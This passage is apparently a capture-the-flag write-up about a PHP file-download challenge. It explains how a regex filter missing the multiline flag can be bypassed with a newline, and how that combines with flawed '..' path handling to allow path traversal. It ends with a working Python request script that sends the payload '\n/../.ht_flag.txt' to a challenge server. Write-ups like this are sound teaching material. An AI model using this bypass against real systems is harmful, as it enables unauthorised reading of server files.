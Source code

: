 ```php
    <h3><a target="_blank" href="/?source">Source?</a></h3>

    <form action="/" method="get" enctype="multipart/form-data">
        Select a file to download:
        <input type="text" name="file" id="file">
        <input type="submit" value="Download!" name="submit">
    </form>

    <?php
}
?>
```

While analyzing the code and comparing it with the challenge from Karachi, i came across the difference in both files which was the regex in the filter:
```
if (!preg_match('/^.(php|flag)./', $file)) {
```

Whilst, in **Karachi** challenge in regex, we had the `multiline` flag like this: `/^.(php|flag)./m`. This doesn't mean much except for the fact that we can use a newline character `\n` to bypass this regex. 

The actual solution for the Karachi challenge was that we can do a `Catastrophic Backtracking Attack` to provide a large string to PHP which would bypass the regex as well. I tried that for a while with no success. Then analyzing the code, the following part seems to be vulnerable:

```php
foreach ($parts as $part) {
    if ($part === '.' || $part === '') {
        continue;
    }
    if ($part === '..') {
        array_pop($safeParts);
    } else {
        $safeParts[] = $part;
    }
}
```

In the second condition, we are removing the last element of `$safeParts` array which means that if the element in array if `..` whatever the last character is will be removed. Combining this with the regex bypass earlier of `newline`. We can send an input such as:
```
\n/../index.php
```

This bypassed the filter and we can read the `index.php` file. The final script to read the flag:
```python
import requests


payload = "\n/../.ht_flag.txt"


r = requests.post(
    'http://3.142.89.90:32989?file=asd',
    data={
        'file': payload
    }
)


print(r.text)
```

